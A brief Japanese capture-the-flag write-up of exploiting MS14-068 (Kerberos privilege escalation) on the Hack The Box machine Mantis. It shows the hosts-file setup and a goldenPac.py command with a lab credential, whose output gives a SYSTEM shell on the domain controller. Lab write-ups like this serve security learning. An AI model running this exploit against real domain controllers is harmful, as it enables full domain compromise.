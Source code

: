 # Kerberos の脆弱性により特権が昇格される（MS-14-068）

- [Microsoft公式](https://docs.microsoft.com/ja-jp/security-updates/securitybulletins/2014/ms14-068)
- [HTB-Mantisで参考にした動画](https://www.youtube.com/watch?v=kMRhTZalAzU)

-> 説明とか、詳細はMicrosoftの上の公式ページで全て解説されてる

## 実際にやってみた（HTB-Mantis）
### まずは/etc/hostsを編集

```terminal
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.52     htb.local mantis.htb.local

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

**mantis.htb.local**はenumしたとき**ldapServiceName**として出てきたもの。


### 実行
（ビックリマークは`\`でエスケープしてる）

```
┌──(kali㉿kali)-[~]
└─$ goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file NBmNmoxP.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service aDay on mantis.htb.local.....
[*] Starting service aDay.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

